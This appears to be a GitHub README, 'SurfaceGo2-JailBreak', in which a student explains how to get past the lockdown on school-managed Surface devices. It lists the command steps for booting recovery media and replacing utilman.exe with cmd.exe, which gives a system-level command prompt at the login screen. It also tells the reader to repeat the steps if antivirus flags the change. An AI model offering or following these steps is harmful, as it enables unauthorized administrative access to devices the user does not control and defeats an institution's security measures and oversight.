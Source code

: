 SurfaceGo2-JailBreak


The Surfaces at my school are extremly locked down, thats why this repo exists

Create Windows 10 Bootable Media

Go to UEFI, change Boot order to USB First

Exit UEFI, Surface will boot to USB

Select Next and then repair my computer

Go to Troubleshoot and select Command line

Type DISKPART

Type list volume

After viewing the volumes, type exit

CD into the Volume of your OS

X:\Volumes> D:            *example*

type cd Windows

type cd System32

type: ren utilman.exe utilman.old

type: copy cmd.exe utilman.exe

type: exit

Restart the Surface, if antivirus flags the utilman cmd, repeat those steps again.


